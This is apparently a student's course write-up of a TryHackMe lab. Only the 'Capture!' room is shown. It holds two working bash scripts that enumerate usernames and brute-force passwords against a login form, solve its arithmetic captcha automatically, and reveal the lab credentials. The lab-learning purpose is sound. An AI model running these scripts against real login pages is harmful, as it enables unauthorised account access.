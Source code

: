 # Fianl Project
## Solving TryHackMe Rooms

By: Nathan Metens

---
## Intro

This is the final project for Intro to Computer Security. In this final, I attempted 4 TryHackMe Rooms. Three of them were successfully solved, the last one, I ran out of luck. The hardest one, was the one I couldn't solve, the easiest, was the "Security Footage" room. On average, each room took about 1-2 days to solve, working 3+ hours on each per day. This was a struggle, but I learned so much. I have a video [here]() where I go through each Room and how I solved it. This is just the documentation, explaining everything in text, showing capture, and the code.

---
## Table of Contents
1. [Capture!](#capture)
2. [Security Footage](#security-footage)
3. [Crypto Failure](#cryptic-failure)
4. [Racetrack Bank](#racetrack-bank)

---
## Capture!
### Can you bypass the login form?
Diffuculty: Easy

Although the difficaulty was "easy", this one took the longest to solve.

![image](capture/1.png)

![image](capture/2.png)

The room had two files to download: `usernames.txt` and `passwords.txt`:
![image](capture/3.png)

![image](capture/login.png)

At first, I tried random usernames to see what the message would be if I inputed something wrong:
![image](capture/user-not-exist.png)
![image](capture/4.png)

After 10 failed usernames attempts with a bas password, the error came up with a captcha math problem:
![image](capture/captcha.png)

Next, I went to the command line and used curl for faster web access. The main curl command was `curl http://10.201.63.166`. This redirected me to the login page and returned the GET. Next, I posted to the page with this curl command: `curl -X POST http://10.201.63.166/login -d "username=metens&password=pass"`, where the `-d` is for the data in the form. Now, I could enumerate much faster and saw that when I solved the captcha, the message would once again tell me that the username was non-existing:
![image](capture/curl-cap.png)
![image](capture/solved-cap.png)

To solve the captcha in curl, I simply added `&captcha=<result>` to the string containing the username and password.

I developed this script to continuously test each username in the `usernames.txt` file until it returned a "Invalid password" error, showing that the username was correct, but the password not.


```sh
#!/bin/bash

usernames="usernames.txt" # The usernames file
password="wrongpass"      # default password
url="http://$1/login"     # program takes ip address as first arg
attempt=223

> responses.txt

# Loop through usernames text file
tail -n +$attempt $usernames | while IFS= read -r username; do

    username=$(echo "$username" | tr -d '\r') # All usernames have carriage returns in the usernames.txt
    echo "Attempt $attempt: $username"; echo ""

    # Make initial POST request with current username
    response=$(curl -s -X POST "$url" -d "username=$username&password=$password")
    echo "$response" >> responses.txt

    # Detect captcha from the response:
    if echo "$response" | grep -q "Captcha enabled"; then
        echo "! Captcha triggered. Solving..."

	# Extract and solve captcha expression from response:
        captcha_expr=$(echo "$response" | grep -Eo "[0-9]{1,4} [-+*/] [0-9]{1,4}")

        # Solve captcha:
        if [[ -n "$captcha_expr" ]]; then
            captcha_result=$((captcha_expr))
            echo "Solved captcha: $captcha_expr = $captcha_result"

            # Retry POST with captcha answer:
            response=$(curl -s -X POST "$url" \
                -d "username=$username&password=$password&captcha=$captcha_result")
            echo "$response" >> responses.txt
        fi
    fi

    # Reevaluate response
    if echo "$response" | grep -q "does not exist"; then
        echo "$attempt -> The user $username does not exist"

    elif echo "$response" | grep -q "Invalid password"; then
        echo "***** $attempt -> Valid Username: $username *****"
        exit 0
    else 
	    continue
    fi

    ((attempt++))
done
```

After about 5-10 minutes of the program running, it finally found the correct username that returned "Invalid password":
![image](capture/username-found.png)
![image](capture/invalid-password.png)

We have successfully enumerated the username. It took **307 attempts**! Now, that we have the username, we can enumerate the password. To do that, we need to slightly update the script, I created a new one:

```sh
#!/bin/bash

passwords="passwords.txt"
url="http://$1/login"
username=$2

attempt=300

tail -n +$attempt $passwords | while IFS= read -r password; do

    password=$(echo "$password" | tr -d '\r') # In case of carriage return
    echo "Attempt $attempt: $username"; echo ""

    # Make initial POST request
    response=$(curl -s -X POST "$url" -d "username=$username&password=$password")

    # Detect Captcha
    if echo "$response" | grep -q "Captcha enabled"; then
        echo "! Captcha triggered. Solving..."

        # Extract and solve captcha expression
        captcha_expr=$(echo "$response" | grep -Eo "[0-9]{1,4} [-+*/] [0-9]{1,4}")

        if [[ -n "$captcha_expr" ]]; then
            captcha_result=$((captcha_expr))
            echo "Solved captcha: $captcha_expr = $captcha_result"

            # Retry POST with CAPTCHA answer
            response=$(curl -s -X POST "$url" \
                -d "username=$username&password=$password&captcha=$captcha_result")
        fi
    fi

    # Reevaluate response
    if echo "$response" | grep -q "Invalid password"; then
        echo "Invalid password: $password"
    else
        echo "**** Password cracked for '$username': $password ****"
        exit 1
    fi

    ((attempt++))
done
```

After 344 attempts, the password was also enumerated. So the username is "natalie" and the password is "sk8board". I went back to the url in the web and typed those in and received the flag:
![image](capture/password-found.png)
![image](capture/flag.png)
![image](capture/solved.png)

This room was about using basic curl commands, bash scripting for enumeration, and using brute force on all of the passwords and usernames in the given text files. It reminds me of using the rockyou.txt file in some of the labs to crack passwords using hashcat, but this time, through curl.
